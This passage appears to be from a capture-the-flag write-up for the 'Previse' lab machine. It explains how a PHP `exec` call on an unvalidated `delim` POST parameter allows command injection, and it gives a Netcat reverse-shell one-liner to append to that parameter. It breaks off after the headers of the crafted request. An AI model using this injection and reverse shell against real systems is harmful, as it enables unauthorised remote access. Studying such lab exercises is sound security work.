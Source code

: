 If we craft a POST request such that the delimiter (`delim`) has an executable statement appended to it, that statement should be executed. For that reason, `exec` is a dangerous PHP function, especially given the lack of input validation present here. Always sanitize input!

## Gaining Shell Access
### Writing a Malicious POST Request
As previously mentioned, if we create a normal post request to file_logs.php as follows, we then only need to append a malicious custom `delim` parameter to the end — one step at a time though.
Consider the following request, captured when submitting a request for log data from file_logs.php: ![Screenshot of obtaining a valid POST request to file_logs.php](./previse5.png)

At the bottom, `delim=comma` can be seen; this can be changed to `delim=comma; <statement>` to execute `<statement>` when the POST request is forwarded. Ideally, a reverse shell may be set up to grant shell access. This, of course, can be difficult to do without knowing what packages are installed on the target.

I have only ever used Netcat with Metasploit modules on old Windows XP machines to create reverse shell access, so hopefully Previse has Netcat installed. A reverse shell using Netcat can be spawned with [`nc 10.10.14.70 1234 -c bash`](https://explainshell.com/explain?cmd=nc+10.10.14.70+1234+-e+-c+bash); so, the full post request can be as follows, given that my IP address is 10.10.14.70:
```
POST /logs.php HTTP/1.1
Host: 10.10.11.104
Content-Length: 53
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.104
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.11.104/file_logs.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=b1hcqu7ulch7gleqm9f5jnapvm
Connection: close

```